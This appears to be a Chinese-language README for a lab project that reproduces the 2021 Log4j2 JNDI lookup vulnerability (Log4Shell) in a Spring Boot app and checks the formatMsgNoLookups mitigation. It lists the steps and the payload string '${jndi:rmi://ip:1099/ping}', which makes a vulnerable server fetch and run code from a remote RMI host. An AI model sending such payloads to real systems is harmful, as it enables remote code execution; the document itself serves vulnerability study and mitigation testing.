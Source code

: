 # log4j2BugTest
## 背景描述
2021年12月9日，log4j2的一个核弹级漏洞响彻技术圈
https://www.oschina.net/news/172999 （ps：文中提及补丁已被相关安全团队验证仍存漏洞）。
本次将使用java模拟log4j2日志打印的lookup调用rmi的漏洞以及验证一种解决此漏洞的方式（特定环境下执行）
## 执行环境
idea
jdk1.8.0_20

## 执行流程

1. 启动Server服务（自己编写一个漏洞代码类文件）
2. 启动SpringBoot应用服务
3. 使用postman发送 ${jndi:rmi://ip:1099/ping} 类似rmi请求
4. 验证通过
5. 给SpringBoot应用添加参数-Dlog4j2.formatMsgNoLookups=true 
6. 重启springBoot应用
7. 进行步骤3 可以看见远程漏洞代码不再执行
